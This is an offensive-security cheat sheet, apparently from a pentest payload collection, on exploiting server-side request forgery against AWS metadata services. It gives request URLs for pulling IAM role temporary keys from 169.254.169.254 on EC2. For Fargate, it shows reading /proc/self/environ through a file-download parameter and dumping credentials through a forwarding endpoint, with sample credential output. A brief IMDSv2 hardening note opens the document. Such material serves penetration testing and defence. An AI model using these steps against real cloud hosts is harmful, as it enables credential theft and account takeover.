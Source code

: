 # AWS - Metadata SSRF

> AWS released additional security defences against the attack.

:warning: Only working with IMDSv1.

Enabling IMDSv2

```ps1
aws ec2 modify-instance-metadata-options --instance-id <INSTANCE-ID> --profile <AWS_PROFILE> --http-endpoint enabled --http-token required
```

In order to use **IMDSv2** you must provide a token.

```powershell
export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
```

## Method for Elastic Cloud Compute (EC2)

Amazon provides an internal service that allows every EC2 instance to query and retrieve metadata about the host. If you discover an SSRF vulnerability running on an EC2 instance, try to fetch the content from 169.254.169.254.

1. Access the IAM : [http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)

    ```powershell
    ami-id
    ami-launch-index
    ami-manifest-path
    block-device-mapping/
    events/
    hostname
    iam/
    identity-credentials/
    instance-action
    instance-id
    ```

2. Find the name of the role assigned to the instance : [http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)
3. Extract the role's temporary keys : [http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM_USER_ROLE_HERE>/](http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM_USER_ROLE_HERE>/)

    ```powershell
    {
    "Code" : "Success",
    "LastUpdated" : "2019-07-31T23:08:10Z",
    "Type" : "AWS-HMAC",
    "AccessKeyId" : "ASIAREDACTEDXXXXXXXX",
    "SecretAccessKey" : "XXXXXXXXXXXXXXXXXXXXXX",
    "Token" : "AgoJb3JpZ2luX2VjEDU86Rcfd/34E4rtgk8iKuTqwrRfOppiMnv",
    "Expiration" : "2019-08-01T05:20:30Z"
    }
    ```

## Method for Container Service (Fargate)

1. Fetch the **AWS_CONTAINER_CREDENTIALS_RELATIVE_URI** variable from `https://awesomeapp.com/download?file=/proc/self/environ`

    ```powershell
    JAVA_ALPINE_VERSION=8.212.04-r0
    HOSTNAME=bbb3c57a0ed3SHLVL=1PORT=8443HOME=/root
    AWS_CONTAINER_CREDENTIALS_RELATIVE_URI=/v2/credentials/d22070e0-5f22-4987-ae90-1cd9bec3f447
    AWS_EXECUTION_ENV=AWS_ECS_FARGATEMVN_VER=3.3.9JAVA_VERSION=8u212AWS_DEFAULT_REGION=us-west-2
    ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/cb4f6285-48f2-4a51-a787-67dbe61c13ffPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/jvm/java-1.8-openjdk/jre/bin:/usr/lib/jvm/java-1.8-openjdk/bin:/usr/lib/mvn:/usr/lib/mvn/binLANG=C.UTF-8AWS_REGION=us-west-2Tag=48111bbJAVA_HOME=/usr/lib/jvm/java-1.8-openjdk/jreM2=/usr/lib/mvn/binPWD=/appM2_HOME=/usr/lib/mvnLD_LIBRARY_PATH=/usr/lib/jvm/java-1.8-openjdk/jre/lib/amd64/server:/usr/lib/jvm/java-1.8-openjdk/jre/lib/amd64:/usr/lib/jvm/java-1.8-openjd
    ```

2. Use the credential URL to dump the AccessKey and SecretKey : `https://awesomeapp.com/forward?target=http://169.254.170.2/v2/credentials/d22070e0-5f22-4987-ae90-1cd9bec3f447`

    ```powershell
    {
        "RoleArn": "arn:aws:iam::953574914659:role/awesome-waf-role",
        "AccessKeyId": "ASIAXXXXXXXXXX",
        "SecretAccessKey": "j72eTy+WHgIbO6zpe2DnfjEhbObuTBKcemfrIygt",
        "Token": "FQoGZXIvYXdzEMj/////...jHsYXsBQ==",
        "Expiration": "2019-09-18T04:05:59Z"
    }
    ```

## AWS API calls that return credentials

- [chime:createapikey](https://docs.aws.amazon.com/service-authorization/latest/reference/list_amazonchime.html)
- [codepipeline:pollforjobs](https://docs.aws.amazon.com/codepipeline/latest/APIReference/API_PollForJobs.html)
- [cognito-identity:getopenidtoken](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetOpenIdToken.html)
- [cognito-identity:getopenidtokenfordeveloperidentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetOpenIdTokenForDeveloperIdentity.html)
- [cognito-identity:getcredentialsforidentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetCredentialsForIdentity.html)
- [connect:getfederationtoken](https://docs.aws.amazon.com/connect/latest/APIReference/API_GetFederationToken.html)
- [connect:getfederationtokens](https://docs.aws.amazon.com/connect/latest/APIReference/API_GetFederationToken.html)
- [ecr:getauthorizationtoken](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_GetAuthorizationToken.html)
- [gamelift:requestuploadcredentials](https://docs.aws.amazon.com/gamelift/latest/apireference/API_RequestUploadCredentials.html)
- [iam:createaccesskey](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateAccessKey.html)
- [iam:createloginprofile](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateLoginProfile.html)
- [iam:createservicespecificcredential](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateServiceSpecificCredential.html)
- [iam:resetservicespecificcredential](https://docs.aws.amazon.com/IAM/latest/APIReference/API_ResetServiceSpecificCredential.html)
- [iam:updateaccesskey](https://docs.aws.amazon.com/IAM/latest/APIReference/API_UpdateAccessKey.html)
- [lightsail:getinstanceaccessdetails](https://docs.aws.amazon.com/lightsail/2016-11-28/api-reference/API_GetInstanceAccessDetails.html)
- [lightsail:getrelationaldatabasemasteruserpassword](https://docs.aws.amazon.com/lightsail/2016-11-28/api-reference/API_GetRelationalDatabaseMasterUserPassword.html)
- [rds-db:connect](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)
- [redshift:getclustercredentials](https://docs.aws.amazon.com/redshift/latest/APIReference/API_GetClusterCredentials.html)
- [sso:getrolecredentials](https://docs.aws.amazon.com/singlesignon/latest/PortalAPIReference/API_GetRoleCredentials.html)
- [mediapackage:rotatechannelcredentials](https://docs.aws.amazon.com/mediapackage/latest/apireference/channels-id-credentials.html)
- [mediapackage:rotateingestendpointcredentials](https://docs.aws.amazon.com/mediapackage/latest/apireference/channels-id-ingest_endpoints-ingest_endpoint_id-credentials.html)
- [sts:assumerole](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role.html)
- [sts:assumerolewithsaml](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role-with-saml.html)
- [sts:assumerolewithwebidentity](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role-with-web-identity.html)
- [sts:getfederationtoken](https://docs.aws.amazon.com/cli/latest/reference/sts/get-federation-token.html)
- [sts:getsessiontoken](https://docs.aws.amazon.com/cli/latest/reference/sts/get-session-token.html)

## References

- [AWS API calls that return credentials - kmcquade](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)
- [Cloud security instance metadata - PumaScan - Eric Johnson - 09 Oct 2019](https://pumascan.com/resources/cloud-security-instance-metadata/)
- [Getting started with Version 2 of AWS EC2 Instance Metadata service (IMDSv2) - Sunesh Govindaraj - Nov 25, 2019](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)
- [Privilege escalation in the Cloud: From SSRF to Global Account Administrator - Maxime Leblanc - Sep 1, 2018](https://medium.com/poka-techblog/privilege-escalation-in-the-cloud-from-ssrf-to-global-account-administrator-fd943cf5a2f6)
- [Getting shell and data access in AWS by chaining vulnerabilities - Riyaz Walikar - Aug 29, 2019](https://blog.appsecco.com/getting-shell-and-data-access-in-aws-by-chaining-vulnerabilities-7630fa57c7ed)
